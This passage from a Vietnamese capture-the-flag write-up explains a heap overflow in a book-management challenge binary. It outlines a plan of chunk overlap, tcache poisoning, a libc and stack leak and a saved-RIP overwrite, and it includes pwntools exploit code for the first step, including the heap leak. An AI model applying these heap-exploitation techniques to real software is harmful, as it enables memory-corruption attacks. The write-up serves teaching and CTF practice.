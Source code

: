 ```C
  else
  {
    puts("Invaid slot!");
  }
  return v2 - __readfsqword(0x28u);
}
```
TA để ý rằng books được khai bào với 10phần tử BOOKS[10] tương ứng với 10 index ta có thể malloc.
Còn CHUNK sẽ dược malloc với size trong khoảng từ 0x20 đến 0x40 (vì phần signature của tác giả đã là 0x10 byte)

Và tại hàm rewrite( gọi là edit đi) có lỗi out of bound khi và ta sẽ có thể làm phần author_signature tràn xuống phần dưới và sẽ có thể overwrite metadata của chunk khác .


# KẾ HOẠCH KHAI THÁC
.1) overflow metadata của một chunk và tạo ra lỗi overlapping chunk

.2) tcahe poisoning để có thể leak địa chỉ libc(pie tắt nên ta sẽ có địa chỉ GOT)

.3) leak stack , overwite saved rip của main để có thể OPEN READ WRITE FLAG

# BƯỚC 1:

```python
p.sendlineafter(b"> ",b"A"*5+p8(0x41)) # author signature

# Chuẩn bị các chunk cần thiết và leak heap nhờ option 1337
add(1,b"A"*32)
add(2,b"")
fakechunk=flat(
	0,0,
	0,0x21 # fake size field
	)
add(3,fakechunk)
add(4,b"A"*32)
p.sendlineafter(b"Option: ",b"1337")
p.sendlineafter(b"What is your favourite number? ",b"1")
p.recvuntil(b"You found a secret message: ")
leak=int(p.recvline()[:-1],16)
log.info('[+]leak heap:'+hex(leak))
heap=leak-0x3d10
log.info('[+]heap base:'+hex(heap))
```
Heap sẽ trong như sau:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/b2e2ac2b-19d1-4ad9-9421-ef98628ac088)

Bây giờ ta sẽ dùng hàm edit để edit chunk1 và ta sẽ nhập full 0x30 byte thì phần author_signature sẽ bị tràn xuống chunk2 dang có size là 0x20, và chunks2 sẽ có size là 0x41(tính cả phần metadata); giả dụ ta free chunk3 và nó ở trong tcahe ,
. Vì chunk2 có thể nhập đến 0x30byte tức là sẽ có thể ghi đè lên lên phần foward pointer của chunk3 ==> tcache poisoning

